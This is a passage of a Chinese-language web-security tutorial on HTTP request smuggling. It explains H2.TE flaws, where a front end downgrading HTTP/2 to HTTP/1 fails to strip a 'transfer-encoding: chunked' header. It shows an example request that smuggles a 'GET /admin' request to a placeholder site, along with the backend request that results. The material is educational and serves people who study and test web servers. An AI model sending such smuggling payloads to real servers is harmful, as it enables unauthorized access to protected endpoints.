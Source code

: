 [![](assets/1705287960-6aa24d9f5290fa30ac5b768a50eaa2ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103523-11f71292-b02a-1.png)  
Step 5：随后完成解题

[![](assets/1705287960-f3b633932eee53bc43aece859105546e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103533-18335102-b02a-1.png)

### H2.TE vulnerabilities

HTTP/2与Chunked transfer encoding 不兼容，规范是建议在尝试插入的任何"transfer-encoding: chunked"头都应该被剥离或完全阻塞请求，如果前端服务器未能做到这一点并且随后降级了对支持分块编码的 HTTP/1 后端的请求，也将会导致请求走私攻击  
如果我们以 HTTP/2 的格式发送如下请求：

```plain
:method POST
:path   /example
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
transfer-encoding   chunked
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

那么此时后端请求数据报文将如下：

```plain
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
